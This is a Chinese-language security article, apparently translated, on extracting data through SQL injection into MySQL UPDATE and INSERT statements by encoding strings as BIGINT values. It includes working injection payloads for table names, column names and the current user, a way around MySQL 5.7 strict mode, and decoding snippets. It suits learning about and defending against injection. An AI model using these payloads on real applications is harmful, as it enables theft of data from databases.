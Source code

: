 ```yaml
---
layout: post
title: "一种新的MySQL下Update、Insert注入方法"
categories:
- 今日头条
tags:
---
```

![](http://p1.pstatp.com/large/16c300022ac09d57dbc0)

翻译：testvul_001

预估稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

前言



目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

1$query = "UPDATE users SET username = '$username' WHERE id = '$id';";

HTTP应用中的参数是这样的：

1username=test&id=16

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

![](http://p2.pstatp.com/large/16ca0000cf213c19bc75)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

![](http://p2.pstatp.com/large/16830006b1f3578e154a)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

![](http://p3.pstatp.com/large/16c300022abf9ceef16f)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

![](http://p3.pstatp.com/large/16c500047c0e50916d85)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

![](http://p3.pstatp.com/large/16830006b1f10920a87f)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

转换字符串为数字



为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

1String -> Hexadecimal -> Decimal

![](http://p3.pstatp.com/large/16ca0000cf2352669eeb)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

1Decimal -> Hexadecimal -> String

![](http://p3.pstatp.com/large/16ca0000cf222f9d36db)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

![](http://p3.pstatp.com/large/16c300022ac1b3bee683)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

![](http://p9.pstatp.com/large/16c9000437eb4f6bfa7d)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

1select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

![](http://p1.pstatp.com/large/16830006b1f4db89d08a)

最后我们把user()函数获得的数据解码。

![](http://p3.pstatp.com/large/16c9000437e81895a1f9)

注入技巧



获取表名

1select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);

获取列名

1select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);

利用UPDATE语句

下面我们通过一个例子来说明如何利用更新语句。

![](http://p3.pstatp.com/large/16c300022ac40bbf6cf4)

实际的查询语句可能是这样的：

![](http://p3.pstatp.com/large/16c400023e1e256f5b16)

![](http://p1.pstatp.com/large/16c300022ac2dd5a356a)

利用INSERT语句

原始SQL语句如下：

1insert into users values (17,'james', 'bond');

我们可以像update语句中一样获取数据：

1insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);

MySQL 5.7中的限制



你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

![](http://p3.pstatp.com/large/16c9000437eeebacfd7a)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

![](http://p3.pstatp.com/large/16c9000437ecd3eb3189)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

![](http://p9.pstatp.com/large/16c300022ac535a5eb4c)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

![](http://p3.pstatp.com/large/16c400023e2031a99b5c)

如果想设置影响所有客户端的全局属性需要SUPER权限。

![](http://p1.pstatp.com/large/16c500047c1081e26968)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

![](http://p3.pstatp.com/large/16ca0000cf2473ab81e3)

解码Decoding



SQL

1select unhex(conv(value, 10, 16));

Python

1dec = lambda x:("%x"%x).decode('hex')

Ruby

12dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }或dec = lambda { |x| puts x.to_s(16).scan(/\w+/).pack("H*") }